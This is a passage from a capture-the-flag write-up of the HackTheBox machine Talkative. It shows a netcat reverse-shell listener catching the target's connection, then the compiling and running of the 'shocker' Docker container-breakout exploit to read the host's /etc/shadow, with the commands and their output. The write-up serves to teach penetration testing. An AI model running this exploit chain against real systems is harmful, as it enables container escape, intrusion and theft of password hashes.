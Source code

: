```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:01:46(HKT)]
└> nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.155] 38912
ls -lah /tmp/shocker
-rw-r--r-- 1 root root 17K Aug 12 11:01 /tmp/shocker
```

Nice! The `shock` binary has been transfered!

**Let's run the exploit, so that we can read host machine's `/etc/shadow` file!**
```shell
chmod +x /tmp/shocker
/tmp/shocker /etc/shadow /tmp/shadow
/tmp/shocker: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/shocker)
```

Oh... Looks like the libc version is way too new, and the Docker container libc version doesn't support version `GLIBC_2.34`.

> "libc" means standard C library.

**To solve this issue, we need to compile the `shocker.c` as a static binary:** (From writeup [https://fdlucifer.github.io/2022/04/10/talkactive/](https://fdlucifer.github.io/2022/04/10/talkactive/))
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:23:18(HKT)]
└> gcc -Wall -std=c99 -O2 shocker.c -static -o shocker_static
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:25:51(HKT)]
└> file shocker_static
shocker_static: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=ec0f255ee8428233b3bf5edcf64fa1b930d33c15, for GNU/Linux 3.2.0, not stripped
```

**Transfer it again and we should good to go:**
```shell
/tmp/shocker /etc/shadow /tmp/shadow
[***] docker VMM-container breakout Po(C) 2014 [***]
[***] The tea from the 90's kicks your sekurity again. [***]
[***] If you have pending sec consulting, I'll happily [***]
[***] forward to my friends who drink secury-tea too! [***]

<enter>

[*] Resolving 'etc/shadow'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
[*] Found media
[*] Found proc
[*] Found etc
[+] Match: etc ino=393217
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found modules-load.d
```